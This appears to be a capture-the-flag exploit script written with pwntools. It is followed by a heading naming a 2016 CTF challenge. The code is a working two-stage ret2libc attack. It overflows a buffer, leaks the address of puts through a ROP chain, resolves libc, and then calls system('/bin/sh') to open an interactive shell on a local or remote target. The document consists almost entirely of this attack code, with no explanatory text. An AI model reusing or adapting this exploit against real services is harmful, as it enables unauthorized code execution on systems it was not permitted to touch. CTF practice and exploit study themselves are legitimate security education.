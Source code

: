 ```python
elf = context.binary
rop = ROP(elf)


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    # raw_input("DEBUG")

    target.sendlineafter(b"name", b"")
    payload = flat(
        b"A" * 0x28,
        rop.rdi.address,
        elf.got["puts"],
        elf.plt["puts"],
        elf.sym["main"],
    )
    target.sendlineafter(b"me?", payload)

    target.recvline()
    leaked_puts = u64(target.recv(0x6).strip().ljust(0x8, b"\x00"))
    libc = LibcSearcher("puts", leaked_puts)
    libc_base = leaked_puts - libc.dump("puts")

    payload = flat(
        b"A" * 0x28,
        rop.rdi.address,
        libc_base + libc.dump("str_bin_sh"),
        rop.ret.address,
        libc_base + libc.dump("system"),
        libc_base + libc.dump("exit"),
    )
    target.sendlineafter(b"name", b"")
    target.sendlineafter(b"me?", payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

# not_the_same_3dsctf_2016
